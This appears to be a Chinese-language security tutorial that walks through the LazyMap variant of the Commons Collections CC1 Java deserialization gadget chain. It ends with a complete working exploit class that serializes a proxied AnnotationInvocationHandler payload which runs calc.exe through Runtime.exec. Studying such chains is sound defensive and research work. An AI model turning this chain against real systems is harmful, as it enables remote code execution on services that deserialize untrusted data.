



### CC1

因为上次使用的CC1链利用的类是`TransformedMap`这次使用另一个`Map`


然后这次使用的是ysoserial项目中的payload



从`LazyMap.get()`后面的过程，就是调用`transform()`方法的过程跟上一个文章分析是一样的，就不多写了，这里只分析前面的部分。

上面的同样调用了`AnnotationinvocationHandler`这个类，但是这里的链子当中，`AnnotationinvocationHandler`调用了两次，一次是调用了其中的`readObject()`方法，应该是用来反序列化调用。还有一个时`invoke()`方法调用`LazyMap`中的`get()`方法。

看一下在`LazyMap`中的这个`get()`方法

```java
public Object get(Object key) {
    // create value for key if key is not currently in the map
    if (map.containsKey(key) == false) {
        Object value = factory.transform(key);
        map.put(key, value);
        return value;
    }
    return map.get(key);
    }
```

进入就是if判断这个map集合中是否存在这个指定的key，如果存在就跳过if，直接`return map.get(key)`

如果没有key，那么会创建一个key，也就是只要执行到`get()`方法的时候，找不到这个key就可以成功进入执行`transform()`方法。现在就是找哪里调用了`get()`方法

根据payload中可以看到是在`AnnotationinvocationHandler`类中的`invoke()`方法



且这个`memberValues`是可控的，`private final Map<String, Object> memberValues;`


然后就是这里来调用`get()`方法，

现在继续向上，怎么才能调用`invoke()`方法，

看流程是`Map(Proxy).entrySet`，这里要去了解一下关于代理的知识点了。

Proxy是在使用时会自动调用`InvocationHandler`的`invoke()`方法的。

```java
Map mapProxy = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(), new Class[]{Map.class}, h);
```

关于`newProxyInstance()`的三个参数，第一个：使用`LazyMap.class.getClassLoader()`加载器去加载代理对象

第二个参数：动态代理类需要实现的接口

第三个参数：h动态代理方法在执行时，会调用h里面的`invoke`方法去执行

`invoke()`方法也调用了，因为还是要调用`AnnotationInvocationHandler`中的`readObject()`，所以还是跟上一条链子一样，创建一个对象，最终要序列化的就是它。

```java
annotationInvocationHandler.newInstance(Override.class, mapProxy);
```

这次对注解没有要求，只需要传一个就可以。因为这次的不需要进入if判断，调用不用进入判断。所以是无所谓了。



完整攻击代码

```java
package CC6;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

public class CC6 {
    public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException, InvocationTargetException, InstantiationException, IllegalAccessException, IOException {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] {null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] {String.class }, new Object[] {"calc.exe"})
        };
        Transformer chainedTransformer = new ChainedTransformer(transformers);
        // chainedTransformer.transform(Runtime.class);
        HashMap map = new HashMap();
        Map lazyMap = LazyMap.decorate(map, chainedTransformer);

        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor annotationInvocationHandler = c.getDeclaredConstructor(Class.class, Map.class);
        annotationInvocationHandler.setAccessible(true);
        InvocationHandler h = (InvocationHandler) annotationInvocationHandler.newInstance(Override.class, lazyMap);

        Map mapProxy = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(), new Class[]{Map.class}, h);

        Object o = annotationInvocationHandler.newInstance(Override.class, mapProxy);
        serialize(o);
        unserialize("cc6.bin");
    }
    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("cc6.bin"));
        oos.writeObject(obj);
    }
    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}
```